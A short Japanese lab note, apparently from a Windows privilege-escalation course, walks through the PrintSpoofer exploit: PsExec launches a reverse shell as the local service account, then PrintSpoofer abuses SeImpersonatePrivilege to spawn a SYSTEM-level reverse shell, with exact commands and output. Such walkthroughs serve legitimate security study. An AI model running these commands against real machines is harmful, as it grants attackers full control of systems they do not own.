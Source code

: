 PrintSpoofer は、Print Spooler サービスを標的としたエクスプロイトです。    
GitHub: https://github.com/itm4n/PrintSpoofer    
Blog: https://itm4n.github.io/printspoofer-abusingimpersonate-privileges/

# Privilege Escalation
1. PSExec64.exeとPrintSpoofer.exeのエクスプロイト実行ファイルをWindowsにコピーしてください。
2. Kaliでリスナーを開始する。
3. <span style="color:red;">管理者用コマンドプロンプト</span>を使用して、PSExec64.exeを使用して、ローカルサービスのサービスアカウントとして実行するリバースシェルを起動します。
```
> C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
4. Kaliで別のリスナーを始める。


![2022-11-16_12-24-04.png](../../_resources/2022-11-16_12-24-04.png)
<span style="color:red;">SeImpersonatePrivilege</span>が<span style="color:red;">Enabled</span>になっていることを確認する 

5. ここで、PrintSpooferエクスプロイトを実行し、SYSTEM権限で実行するリバースシェルを起動します。
```
> C:\Windows\system32>C:\PrivEsc\PrintSpoofer.exe -i -c "C:\PrivEsc\reverse.exe"
C:\PrivEsc\PrintSpoofer.exe -i -c "C:\PrivEsc\reverse.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```


![2022-11-16_09-43-14.png](../../_resources/2022-11-16_09-43-14.png)

